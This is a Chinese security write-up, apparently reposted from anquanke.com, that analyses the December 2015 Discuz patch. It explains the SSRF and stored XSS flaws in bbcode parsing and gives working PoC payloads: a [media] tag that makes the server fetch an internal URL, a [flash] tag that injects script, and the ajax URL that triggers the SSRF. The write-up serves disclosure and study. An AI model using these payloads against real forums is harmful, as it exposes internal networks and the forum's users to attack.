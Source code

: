 > 原文链接: https://www.anquanke.com//post/id/83123 


# DZ_20151208补丁分析_SSRF&amp;XSS


                                阅读量   
                                **67022**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t017344c0898de340b2.jpg)](https://p3.ssl.qhimg.com/t017344c0898de340b2.jpg)

**author:ModNar@0keeTeam**

漏洞分析:

我们先来diff看看补丁20151208相对20150609都改了啥:



```
*source/admincp/admincp_checktools.php     IM图片库命令执行(需登录后台)
*source/class/helper/helper_form.php       http://www.wooyun.org/bugs/wooyun-2015-0124807 Discuz CSRF发帖POC可蠕虫 (限制referer)
*source/function/function_discuzcode.php    http://www.wooyun.org/bugs/wooyun-2015-0150674 SSRF和xss
*source/function/function_followcode.php    http://www.wooyun.org/bugs/wooyun-2015-0150674 SSRF和xss
*source/module/forum/forum_viewthread.php    http://www.wooyun.org/bugs/wooyun-2015-0151687 帖子正文XSS
*source/module/misc/misc_swfupload.php     http://www.wooyun.org/bugs/wooyun-2015-0124807 Discuz CSRF发帖POC可蠕虫 (限制非图片文件上传)
*static/js/bbcode.js                       http://www.wooyun.org/bugs/wooyun-2015-0139851 最新版Discuz修复不全导致仍可针对管理员存储XSS
*template/default/member/getpasswd.htm     未知
*source/function/function_cloudaddons.php  未知,插件相关
*source/function/function_core.php         功能性bug?
*source/admincp/admincp_cloudaddons.php    未知,插件相关
```

<br>

以下选用其中的SSRF和有限制的XSS作分析:

1.bbcode有条件SSRF

补丁都加了个严格匹配开头的正则符^,看起来是正则校验url不严格的问题:

sourcefunctionfunction_discuzcode.php:

[![](https://p4.ssl.qhimg.com/t0122f85328889cccac.png)](https://p4.ssl.qhimg.com/t0122f85328889cccac.png)

科学地使用skywolf,轻松定位到背锅的代码位置:

[![](https://p4.ssl.qhimg.com/t0103ee4456f7859fc1.png)](https://p4.ssl.qhimg.com/t0103ee4456f7859fc1.png)

第4个调用点点开看看:

[![](https://p5.ssl.qhimg.com/t01485d194437499ab7.png)](https://p5.ssl.qhimg.com/t01485d194437499ab7.png)

由以上调用栈可知触发条件是看帖。

Poc:

根据preg_replace的正则和parseflv的正则,我们可以构造如下的payload, 即可通过正则校验使[media]包裹的内容到达file_get_contents调用处:

[media=x,,][http://ip:port/phpinfo.php?cmd=calc.exe&amp;xx=http://www.tudou.com/programs/view/xx.html[/media](http://ip:port/phpinfo.php?cmd=calc.exe&amp;xx=http://www.tudou.com/programs/view/xx.html%5b/media)]

2.bbcode有限制存储XSS

这个文件还修复了一处类似限制条件的存储XSS:

[![](https://p1.ssl.qhimg.com/t018d7abf375c552b31.png)](https://p1.ssl.qhimg.com/t018d7abf375c552b31.png)

此处是组合的HTML标签,可控点$url处于js中,可用单引号闭合:

[![](https://p3.ssl.qhimg.com/t016e90e14dc73cf1be.png)](https://p3.ssl.qhimg.com/t016e90e14dc73cf1be.png)

调用点也是preg_replace的bbcode解析处:

[![](https://p4.ssl.qhimg.com/t015d428a8a46c35455.png)](https://p4.ssl.qhimg.com/t015d428a8a46c35455.png)

Poc:

因此构造以下payload即可触发XSS:

[flash][http://www.baidu.com/1.swf?a='));alert(2);//](http://www.baidu.com/1.swf?a=%27));alert(2);//)[/flash]

利用限制:

很显然,这次又是bbcode解析的锅,这里用到了preg_replace的/e选项,所以需要php&lt;5.5的支持。$allowmediacode需要为true,通过查看后台相应选项,版块允许使用多媒体代码默认是开的,然而默认只有管理员组才允许发media标签的bbcode。

[![](https://p0.ssl.qhimg.com/t01e666a738d809cbf7.png)](https://p0.ssl.qhimg.com/t01e666a738d809cbf7.png)

利用演示:

假设内网一处[http://10.0.2.15/phpinfo.php](http://10.0.2.15/phpinfo.php)源码如下:

[![](https://p1.ssl.qhimg.com/t019cfd49c5620cef00.png)](https://p1.ssl.qhimg.com/t019cfd49c5620cef00.png)

发帖:

[![](https://p1.ssl.qhimg.com/t01070f5b0cc56214c6.png)](https://p1.ssl.qhimg.com/t01070f5b0cc56214c6.png)

查看帖子[http://127.0.0.1/discuz/forum.php?mod=viewthread&amp;tid=12&amp;extra=page=1](http://127.0.0.1/discuz/forum.php?mod=viewthread&amp;tid=12&amp;extra=page=1):

[![](https://p4.ssl.qhimg.com/t0179be871221a7b8e3.png)](https://p4.ssl.qhimg.com/t0179be871221a7b8e3.png)

3.无限制SSRF

之前分析的漏洞触发点要求发帖人允许使用多媒体代码,实际上存在无限制的点:

sourcefunctionfunction_followcode.php:

diff这个文件,亮点不在标红代码处,而是在fparsemedia中调用了之前的parseflv!

[![](https://p2.ssl.qhimg.com/t01d9f6aad2119af72e.png)](https://p2.ssl.qhimg.com/t01d9f6aad2119af72e.png)

往上看fparsemedia的调用点:

在function followcode()中,也有类似之前sourcefunctionfunction_discuzcode.php的bbcode解析,可见此处是没有$allowmediacode条件限制的:

[![](https://p3.ssl.qhimg.com/t0121c6e4feeccb43cc.png)](https://p3.ssl.qhimg.com/t0121c6e4feeccb43cc.png)

sourcemoduleforumforum_ajax.php:

[![](https://p2.ssl.qhimg.com/t01ebd18df302ecc6f9.png)](https://p2.ssl.qhimg.com/t01ebd18df302ecc6f9.png)

跟到前台的触发点可构造:

http://127.0.0.1/discuz/forum.php?mod=ajax&amp;tid=11&amp;extra=page=1&amp;action=getpostfeed&amp;flag=1&amp;pid=36

调用栈如下:

[![](https://p5.ssl.qhimg.com/t0155c6ca6f7bb4ea43.png)](https://p5.ssl.qhimg.com/t0155c6ca6f7bb4ea43.png)

因此无限制的利用过程为:

使用任意用户发帖,然后回复该帖子,回复内容同样为:

[media=x,,][http://10.0.2.15/phpinfo.php?cmd=calc.exe&amp;xx=http://www.tudou.com/programs/view/xx.html[/media](http://10.0.2.15/phpinfo.php?cmd=calc.exe&amp;xx=http://www.tudou.com/programs/view/xx.html%5b/media)]

[![](https://p5.ssl.qhimg.com/t01b53b61a75d852544.png)](https://p5.ssl.qhimg.com/t01b53b61a75d852544.png)

然后访问以下链接触发SSRF,其中fid和tid分别是帖子的id和回复的id:

http://127.0.0.1/discuz/forum.php?mod=ajax&amp;tid=11&amp;extra=page=1&amp;action=getpostfeed&amp;flag=1&amp;pid=36

[![](https://p3.ssl.qhimg.com/t0148b3aa1c10e1c340.png)](https://p3.ssl.qhimg.com/t0148b3aa1c10e1c340.png)
